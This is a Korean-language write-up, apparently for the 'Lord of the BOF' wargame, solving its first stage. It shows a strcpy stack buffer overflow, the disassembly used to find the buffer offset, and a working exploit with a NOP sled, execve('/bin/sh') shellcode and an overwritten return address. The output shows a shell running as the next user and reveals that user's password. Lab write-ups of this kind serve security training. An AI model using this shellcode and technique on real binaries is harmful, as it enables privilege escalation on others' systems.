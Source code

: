 

이제 본격적으로 문제 풀이를 시작해보잠

## STAGE 1: gate -> gremlin

```c
[gate@localhost gate]$ cat gremlin.c 
/*
	The Lord of the BOF : The Fellowship of the BOF 
	- gremlin
	- simple BOF
*/
 
int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```

strcpy` 함수는 문자열 길이 검사를 안하고 NULL byte를 만나기 전까지 복사하므로 bof가 터진다. ASLR이 없으므로 라이브러리의 주소가 일정해서 특정 함수의 주소로 ret를 덮는 공격도 가능하고, 아까 봤던 위의 메모리 맵을 봤을 때, 이 프로세스의 Stack 공간에 실행권한이 존재하므로 스택에 쉘코드를 올리면 ret를 그 주소로 조작했을 때 해당 코드를 실행시키는 것 역시 가능하다.

어떤 공격 방법을 선택할지에 앞서, 우선 실제 메모리 상에서 `buffer`가 ret로부터 얼마 간 떨어져있는지 확인해보도록 하자. 다음을 보면 ebp-256 위치에 `buffer`가 존재하는 것을 확인할 수 있다.

```shell
0x804845c <main+44>:	mov    %edx,DWORD PTR [%eax]
0x804845e <main+46>:	push   %edx
0x804845f <main+47>:	lea    %eax,[%ebp-256]
0x8048465 <main+53>:	push   %eax
0x8048466 <main+54>:	call   0x8048370 <strcpy>
```



실제 ret 주소를 정확하게 알지를 못해서 (gdb 상에서 실행되는 경우는 gdb가 사용하는 환경변수 같은 애들 때문에 실제 주소와 약간의 오차가 존재한다.) 걍 nop sled로 간다. ret뿐만 아니라 ebp도 잘 설정해줘야함.

```shell
[gate@localhost gate]$ ./gremlin `python -c 'print "\x90"*(0xf0-24)+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"\x90"*0x10+"\x10\xf9\xff\xbf"+"\x70\xf9\xff\xbf"'`
1󿿐h//shh/bin⏓ᙰ
              ̀󾱹ÿ¿
bash$ id
uid=500(gate) gid=500(gate) euid=501(gremlin) egid=501(gremlin) groups=500(gate)
bash$ my-pass
euid = 501
hello bof world
```
